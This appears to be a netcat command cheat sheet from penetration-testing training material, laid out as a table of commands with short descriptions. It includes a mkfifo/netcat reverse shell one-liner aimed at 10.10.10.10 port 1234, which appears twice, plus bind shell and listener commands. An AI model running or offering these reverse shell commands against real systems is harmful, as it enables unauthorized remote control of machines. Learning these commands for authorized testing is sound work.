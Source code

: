 |**Command**|**Description**|
|-|-|
| **Interaction between nodes** |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f` | Another command to send a reverse shell from the remote server |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f` | Another command to send a reverse shell from the remote server |
| `nc 10.10.10.1 1234` | Connect to a bind shell started on the remote server |
| `nc -v 192.168.2.142 21` | Connecting to the FTP server using `netcat`. |
| `sudo nc -lvnp <port #>` | Starts a `netcat` listener on a specified port |
| `nc -nv <ip address of computer with listener started><port being listened on>` | Connects to a netcat listener at the specified IP address and port |
| **Interaction between services** |
| `nc -nv <FQDN/IP> 21` | Interact with the FTP service on the target. |
